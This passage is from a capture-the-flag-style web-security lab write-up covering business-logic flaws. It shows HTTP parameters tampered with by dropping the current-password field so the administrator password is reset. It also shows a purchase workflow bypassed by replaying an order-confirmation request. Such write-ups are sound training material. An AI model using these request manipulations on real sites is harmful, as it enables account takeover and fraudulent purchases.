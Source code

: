 ```bash

csrf=p8l3u2z8mHrr2hUenY1ZVnaAaoIq5nsX&username=administrator&current-password=&new-password-1=peter2&new-password-2=peter2

To

csrf=p8l3u2z8mHrr2hUenY1ZVnaAaoIq5nsX&username=administrator&new-password-1=peter2&new-password-2=peter2

Login as administrator:peter2

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220715040951.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220715041050.png)

### Insufficient workflow validation
```bash

# This lab makes flawed assumptions about the sequence of events in the purchasing workflow. To solve the lab, exploit this flaw to buy a "Lightweight l33t leather jacket".

# You can log in to your own account using the following credentials: `wiener:peter`

Login as wiener:peter
Go to: Home
Add a lower price item to the cart
Purchase the item
Go to: HTTP History

GET /cart/order-confirmation?order-confirmed=true HTTP/1.

Take note of:

/cart/order-confirmation?order-confirmed=true

Add "Lightweight l33t leather jacket" to cart
Purchase the item
Go to: HTTP History

GET /cart?err=INSUFFICIENT_FUNDS HTTP/1.1

Send the above GET request to repeater and change to:

GET /cart/order-confirmation?order-confirmed=true HTTP/1.

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220715041156.png)
